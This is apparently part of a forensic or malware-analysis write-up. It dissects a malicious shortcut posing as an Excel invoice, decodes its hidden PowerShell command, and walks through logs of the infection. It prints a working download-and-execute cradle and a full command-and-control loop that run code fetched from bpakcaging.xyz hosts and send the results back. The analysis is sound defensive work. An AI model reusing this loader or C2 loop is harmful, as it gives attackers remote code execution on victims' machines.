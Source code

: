 ```bash
     DATA
        Description: Invoice Jan 2023
        Relative path: ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Working directory: C:
        Command line arguments: -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
        Icon location: C:\Users\Administrator\Desktop\excel.ico
     EXTRA BLOCKS:
        ICON_LOCATION_BLOCK
           Target ansi: %USERPROFILE%\Desktop\excel.ico
           Target unicode: %USERPROFILE%\Desktop\excel.ico
        SPECIAL_FOLDER_LOCATION_BLOCK
           Special folder id: 37
        KNOWN_FOLDER_LOCATION_BLOCK
           Known folder id: 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7
        METADATA_PROPERTIES_BLOCK
           Version: 0x53505331
           Format id: 46588AE2-4CBC-4338-BBFC-139326986DCE
```

The encoded PowerShell command downloads and executes a payload:
```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

---

### Log Analysis

#### Timestamp Fix
Sorting JSON logs by timestamp:
```bash
$ cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' > powershell1.json
```

#### PowerShell Logs
Analyzing executions:
```bash
$ cat powershell1.json | grep 4104 | jq '.ScriptBlockText' | grep -v Set-StrictMode
```

##### Initial Execution
Downloading `update`:
```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

##### Establishing C2 Connection
```powershell
$s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{"X-38d2-8f49"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{"X-38d2-8f49"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{"X-38d2-8f49"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```
